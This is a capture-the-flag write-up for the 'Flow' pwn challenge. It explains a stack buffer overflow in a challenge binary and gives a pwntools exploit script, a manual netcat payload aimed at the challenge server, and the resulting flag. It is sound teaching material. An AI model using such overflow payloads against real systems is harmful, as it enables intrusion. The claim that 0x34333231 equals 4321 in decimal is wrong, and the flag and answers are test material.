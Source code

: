 ```yaml
---
title: "Flow"
summary: "P3rf3ctr00tCTF pwn chalenge"
categories: ["P3rf3ctr00tCTF","Blog",]
tags: ["P3rf3ctr00tCTF"]
#externalUrl: ""
#showSummary: true
date: 2024-11-23
draft: false
---
```



# **Challenge Description**

- **Name:** Flow
- **Category:** pwn
- **Points:** 100
- **Challenge Description:**  
    Be like water

---

# file analysis
First I started by checking the file type using `file` command
```shell
flow: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=22e8e3a51853e485e3a36c1d5f95446782c30fee, for GNU/Linux 3.2.0, not stripped
```
From the output, the file is an ELF 64-bit, dynamically linked, and not stripped. It is built for the x86-64 architecture. Next, I executed the binary to observe its behavior.
# File execution
Upon execution, the binary prompts for user input and exits without any notable action after supplying dummy text. This behavior suggests hidden functionality, so I disassembled the binary using **Ghidra**. The disassembly revealed three key functions: `main`, `vulnerable`, and `win`.
![functions](https://gist.github.com/user-attachments/assets/656998d0-496a-44ab-9219-4e1a8f4cc1de)

The `main` function calls the `vulnerable()` function, which can call the `win()` function if specific conditions are met.
## Vulnerable()
The `vulnerable()` function accepts user input stored in a 60-byte buffer. It does not validate the input size, leaving it susceptible to buffer overflow.
![vulnerable_function](https://gist.github.com/user-attachments/assets/454f12de-e79e-48a7-90e8-f5c390393184)

Within this function:

- A variable `local_c` is initialized to `0xc` (12 in decimal).
- The program compares `local_c` to `0x34333231` (hexadecimal for "1234" in ASCII, or 4321 in decimal).

Under normal execution, this condition is never satisfied because `local_c` is initially set to `12`. However, exploiting the buffer overflow allows us to overwrite `local_c` with the target value (`0x34333231`), triggering the `win()` function.
 
 ## win()
 I proceeded to analyse the win function.
![win_function](https://gist.github.com/user-attachments/assets/9f30ad57-b5a4-44e5-95e3-1eb457ac03d6)

The `win()` function reads the contents of `flag.txt` and prints it to the screen. If the file is missing, an error message is displayed.
## Exploitation
To retrieve the flag, we need to:

1. Overflow the buffer.
2. Overwrite `local_c` with the value `0x34333231` (corresponding to the ASCII string "1234").
### using pwntools
Here’s the Python script for the exploit using **pwntools**:
```python
from pwn import *

def main():
    host = "94.72.112.248"
    port = 7001

    offset = 60
    target_value = 0x34333231  # Value to overwrite `local_c` ("1234" in ASCII)

    # Payload
    payload = b"A" * offset + p32(target_value)

    try:
        conn = remote(host, port)
      
        conn.sendline(payload)

        response = conn.recvall()
        print(f"[+] Response:\n{response.decode().strip()}")

        conn.close()
    except Exception as e:
        print(f"[!] Error: {e}")

if __name__ == "__main__":
    main()

```

Running the script successfully retrieves the flag:

```bash
└─$ python3 sol.py 
[+] Opening connection to 94.72.112.248 on port 7001: Done
[+] Receiving all data: Done (72B)
[*] Closed connection to 94.72.112.248 port 7001
[+] Response:
Enter a text please: Your flag is - r00t{fl0w_0f_c0ntr0l_3ngag3d_7391}

```
### Manual exploitation
To exploit manually:

1. Use `pwn cyclic 60` to generate a 60-character pattern.
2. Append `"1234"` to create the payload:
```shell
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaa1234
```

3. Send the payload to the server:
 ```bash
└─$ nc 94.72.112.248 7001               
Enter a text please: aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaa1234
Your flag is - r00t{fl0w_0f_c0ntr0l_3ngag3d_7391}

```

# Flag

The retrieved flag is:

`r00t{fl0w_0f_c0ntr0l_3ngag3d_7391}`

> [!NOTE]
> In the vulnerable program, the variable `local_c` is compared against the value `0x34333231`. This is the **hexadecimal representation** of the ASCII string `"1234"`. When overwriting memory, the bytes are written in **little-endian format** because the system uses the x86-64 architecture, which is little-endian by default.
> 
> In little-endian systems:
> 
> - The least significant byte (LSB) is stored first in memory.
> - For `0x34333231`, the bytes are stored as:    
> ```
> 31 32 33 34
> ```
> which corresponds to the ASCII characters:    
> ```
> "1" "2" "3" "4"
> ```
> 
> Thus, to overwrite `local_c` with `0x34333231`, the payload must contain `"1234"` in the correct byte order. If we naively sent `"4321"`, the bytes would be stored in reverse order (`0x31323334`), which would fail to meet the condition.

